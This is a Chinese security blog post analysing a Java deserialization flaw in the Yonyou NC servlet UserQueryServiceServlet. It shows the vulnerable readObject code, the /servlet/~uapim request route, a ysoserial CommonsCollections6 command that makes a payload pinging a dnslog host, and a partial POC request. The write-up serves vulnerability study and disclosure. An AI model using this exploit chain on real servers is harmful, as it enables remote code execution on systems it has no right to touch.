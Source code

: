> **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkzMzE5OTQzMA==&mid=2247487364&idx=1&sn=744d24f074c71851c7a36876bc42c3bc

#  OA系统漏洞审计之用友NC反序列化 UserQueryServiceServlet  
原创 chobits02  C4安全团队   2025-06-25 06:02  
  
## 前言  
  
想水个文章，不得不说，这个漏洞算是比较简单的了，师傅们如果学过点代码可以一起分析看个乐呵，感谢师傅们的支持  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJQbVxo0a4zRoVkIFaz2cKA5ib3aFe4hhtP7M1fg56N1OZyaxT5rh0EWanI3cO7VYruqSmYovEc9U6A/640?wx_fmt=jpeg&from=appmsg "")  
  
要分析漏洞就要进代码，和活要见人死要见尸一个道理  
  
用findstr找关键字，可以看到漏洞jar包名称，jar包在
```
uapim
```

  
的目录下  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJQbVxo0a4zRoVkIFaz2cKA5Fu6FeicTZVAt2iaoC2GeiausjpbjVp9nKepHT5lRq1tKMp9m7Ubxtc4dA/640?wx_fmt=png&from=appmsg "")  
  
这个方法的完整路径为
```
nc.bs.pub.im.UserQueryServiceServlet
```

  
  

```
就像你问你外国女朋友，你全名是啥，有没有中间名之类的，方便找到祖宗十八代
```

  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJQbVxo0a4zRoVkIFaz2cKA5KSBibDk9Cf195mdOlJxhk6RByq9RQUNV7bAgULc27V7oNYibYEC2icjrA/640?wx_fmt=png&from=appmsg "")  
  
关键代码如下  

```
protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {  
ObjectInputStream in = new ObjectInputStream((InputStream)request.getInputStream());  
HashMap<Object, Object> params = new HashMap<>();  
ObjectOutputStream oos = new ObjectOutputStream((OutputStream)response.getOutputStream());  
HashMap<Object, Object> result = new HashMap<>();  
try {  
  params = (HashMap<Object, Object>)in.readObject();
```

  
此处POST请求时，读取了输入流，之后对输入流方法进行
```
in.readObject()
```

  
造成了反序列化漏洞，真的是简单粗暴  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJQbVxo0a4zRoVkIFaz2cKA5pH0a9Duic2BDL8gzJfN78vPiaBavqDP3QZV4YU0KEUiaCqpbTicmicxcfAg/640?wx_fmt=png&from=appmsg "")  
  
然后接一段废话，就是这个漏洞到底该怎么请求利用，每个漏洞都有自己的游戏规则：  
  
来到具体的请求URL上面，要调用
```
UserQueryServiceServlet
```

  
类，只要在请求路由加上
```
/~包名称
```

  
+
```
UserQueryServiceServlet
```

  
类的完整路径即可  
  
查看系统的
```
Web.xml
```

  
可以看见请求
```
/service
```

  
和
```
/servlet
```

  
前缀的都经过
```
NCInvokerServlet
```

  
方法处理  
  
  
就是这个不负责任的保安把小区外面的人放进来了  
  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJQbVxo0a4zRoVkIFaz2cKA5hiavluz0kia7wCC2KAMnhXPGzLJ23Zc3MlMc9am3O2Nic6Yiana2JaayWA/640?wx_fmt=png&from=appmsg "")  
  

```
NCInvokerServlet
```

  
方法主要功能是获得url路径后，如果是以
```
/~
```

  
开头，截取第一部分为
```
moduleName
```

  
，然后再截取第二部分为
```
serviceName
```

  
，再根据
```
getServiceObject(moduleName, serviceName)
```

  
实现任意Servlet的调用。  
  
这里包名称是
```
uapim
```

  
，再加上方法的完整路径就能进行请求了，懂了吗师傅们  
  
  
回到漏洞，这里测试使用
```
ysoserial-all.jar
```

  
生成
```
cc6
```

  
的利用链请求dnslog，保存到本地的c.bin文件中  

```
java -jar ysoserial-all.jar CommonsCollections6 &#34;ping xxe.jagvy1.dnslog.cn&#34; > c.bin

```

  
再读取c.bin文件请求即可  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJQbVxo0a4zRoVkIFaz2cKA5P2ZBzPKYETJBBM68Z8ogJR6B0icD4oWyIZwLD6X6v8ibGRWjUkgRfKBw/640?wx_fmt=png&from=appmsg "")  
  
接收到请求记录  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJQbVxo0a4zRoVkIFaz2cKA5znnnNfoGCQ5uldgVlHFibYr7O82XYVuV4PSptGKxJmPx45MLFVG3dVA/640?wx_fmt=png&from=appmsg "")  
  
请求利用POC如下  

```
POST /servlet/~uapim/nc.bs.pub.im.UserQueryServiceServlet HTTP/1.1
Host: 
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15


反序列化POC
```

  
  
  
最后总结  
  
感兴趣的可以公众号私聊我  
进团队交流群，  
咨询问题，hvv简历投递，nisp和cisp考证都可以联系我  
  
**内部src培训视频，内部知识圈，可私聊领取优惠券**  
  
**加入团队、加入公开群等都可联系微信：yukikhq，搜索添加即可。**  
  
****  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJQSCTuiawtOw7G9JFaBeBc06sHdBhSTMMClOr5wLWmLYIl6Yry9n3ZIL97tylQib5YLOuJFxndeFMEg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
END  
  
  
